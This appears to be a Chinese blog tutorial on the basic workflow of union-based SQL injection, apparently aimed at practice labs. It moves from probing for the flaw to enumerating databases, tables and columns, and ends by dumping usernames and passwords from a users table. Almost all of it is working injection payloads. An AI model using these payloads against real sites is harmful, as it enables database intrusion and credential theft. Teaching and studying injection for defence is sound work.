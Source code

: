 ```yaml
---
title: sql注入基本流程
date: '2022/1/23 23:15:01'
categories:
  - - web安全
    - inject
    - sql
abbrlink: e5c8aeca
description: sql注入的最基本的流程
tags:
---
```



## 判断注入类型
#### 数字型注入
```sql
?id=2'              返回错误，未对单引号作处理
?id=2 and 1=1       运行正常
?id=2 and 1=2       运行异常
```
#### 字符型注入
```sql
?username=admin'                返回错误，未对单引号作处理
?username=admin' and '1'='1     运行正常
?username=admin' and '1'='2     运行异常
```
**注意：下面为示例都是字符型注入**

## 判断字段长度
```sql
?id=1' order by 3--+
?id=1' order by 4--+
```
得到字段长度为3

## 判断回显位置
```sql
?id=-8' union select 1,2,3 --+
```

## 获取各个数据库名
```sql
?id=-8' union select 1,2,group_concat(schema_name) from information_schema.schemata --+
```

## 获取某个数据库的表名
> 这里调用database()函数，返回的是当前数据库
```sql
?id=-8' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

## 获取某个表的列名
> 这里获取的是users表的字段名
```sql
?id=-8' union select 1,2,group_concat(column_name) from  information_schema.columns where table_name='users'--+
```

## 读取列名里面的数据
> 得到了字段名username和password后直接读取
```sql
?id=-8' union select 1,2,group_concat(char(32,58,32),id,username,password) from users --+
```